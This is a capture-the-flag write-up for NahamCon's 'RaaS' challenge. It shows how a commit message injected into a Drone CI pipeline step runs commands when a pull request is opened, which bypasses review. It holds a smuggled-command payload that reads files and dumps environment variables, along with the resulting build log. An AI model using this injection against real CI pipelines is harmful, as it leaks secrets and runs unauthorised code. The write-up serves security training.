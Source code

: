 # RaaS

> Someone leaked their git credentials (developer:2!W4S5J$6e). Can you get in?
> 
> This challenge uses vhosts.
> Visit git.challenge.nahamcon.com:[YOUR_PORT]
> Visit drone.challenge.nahamcon.com:[YOUR_PORT]

Start by logging in to the Git repo. Observe the Drone CI/CD pipeline definition file `.drone.yml`:
```
---
kind: pipeline
type: exec
name: test pipeline pr-open

platform:
  os: linux
  arch: amd64

steps:
  - name: pr-open
    commands:
      - sh -c "echo $DRONE_COMMIT_MESSAGE"
trigger:
  event:
    - pull_request
  action:
    - opened
---
kind: signature
hmac: 5421480c92c78bbffdb54a029c854d87630e818631db1f8d32b388e50731dfce

...
```
The fact that the pipeline definition has a hash means we can't modify it. The Git repo also has branch protection turned on -- any PRs need to be approved by a second person. Good security controls, but...

It doesn't matter as the command step includes a command injection vulnerability. And, as we will see, simply submitting a PR that is pending approval will trigger a pipeline build. Even without the cmd exec vuln, in the real world if PR request would trigger a build we could just add some bad code to do a reverse shell, etc.

1. Fork the repo to our own, make a minor change, commit.
2. Submit PR, poison the request with below message: `message; find / -name flag.txt -exec cat {} + && env && ls -alh / && ls -alh $HOME`. Hopefully we can find the flag rightaway, but if not we have env vars and more info for follow-up attempts.
3. Switch to the Drone CI system, check build status, view logs.

Success:
```
+ sh -c "echo $DRONE_COMMIT_MESSAGE"
x3
flag{ede21e1d34dc5d783d93677c7fc254e2}
DRONE_BRANCH=master
DRONE_COMMIT_AUTHOR_AVATAR=http://git.challenge.nahamcon.com:32735/avatars/6199b84099dff1729dbc0b49895adb6c
DRONE_SYSTEM_HOST=drone.challenge.nahamcon.com:32735
GIT_COMMITTER_NAME=drone
DRONE_GIT_SSH_URL=git@localhost:JustHacking/RaaS.git
CI_BUILD_TARGET=
GIT_AUTHOR_EMAIL=developer@noreply.localhost
<SNIP>
```

Fun challenge, again thanks congon4tor!
